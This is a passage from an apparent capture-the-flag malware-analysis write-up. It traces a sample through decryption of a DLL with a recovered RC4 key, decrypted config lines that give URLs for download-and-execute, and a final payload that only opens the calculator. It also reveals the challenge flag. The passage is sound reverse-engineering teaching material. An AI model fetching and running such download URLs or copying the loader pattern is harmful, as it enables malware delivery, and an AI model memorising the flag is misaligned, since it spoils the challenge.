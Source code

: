  
If decryption is successful, the (decrypted) resource is written to the file `advres.dll`. Then
`load_advres_10001CC0` loads that DLL and invokes function `DownloadAndExec` with `install.ini`
as an argument:
```Assembly
.text:10001D75         lea     eax, [ebp+var_28]
.text:10001D78         push    eax                     ; arg1: C:\Windows\install.ini
.text:10001D79         call    esi                     ; DownloadAndExec()
.text:10001D7B         cmp     [ebp+var_14], 8
```


Our goal here, is decrypt `advres.dll`. All we have to do, is to simulate the way that `V` values
are generated and send across different IPs. `myfavoritemalware_crack.py` does this job and finds 
the RC4 key that is used to decrypt `advres.dll`. After running the crack, we get the RC4 key:
```
F2 2E 0D 1F 85 67 C6 A4 C8 88 75 4B 1B 46 10 E9
```

By using this key, we can successfully decrypt and analyze `advres.dll`.



#### Stage 3
In this stage `DownloadAndExec` from `advres.dll` is invoked. `DownloadAndExec` first calls
`decrypt_secret_2627C0`, where it reads `install.ini` and decrypts it. Although we don't know
the decryption algorithm, we can get the decrypted output:
```
file0:http://195.133.87.163/static/stuff/hoadneb.exe; 
file1:http://www.myfavoritemalware.com/files/prnvuag.exe; 
flag:6b87b043ab6953e99069703eaa6d54cb; 
```

After the decryption, these two executable files are downloaded and executed using `ShellExecuteW`.


### Stage 4
From these 2 files, `prnvuag.exe` is non-existing, and `hoadneb.exe` does nothing more than starting
the calculator and printing a message:
```Assembly
.text:00401000 sub_401000      proc near               ; CODE XREF: start+12Ap
.text:00401000         push    offset Command  ; "start calc"
.text:00401005         call    ds:system
.text:0040100B         add     esp, 4
.text:0040100E         push    0               ; uType
.text:00401010         push    offset Caption  ; "Evil"
.text:00401015         push    offset Text     ; "You've been PWNED, ha-ha! =D"
.text:0040101A         push    0               ; hWnd
.text:0040101C         call    ds:MessageBoxW
.text:00401022         xor     eax, eax
.text:00401024         retn    10h
.text:00401024 sub_401000      endp
```

So the flag for this challenge is `6b87b043ab6953e99069703eaa6d54cb`.
___
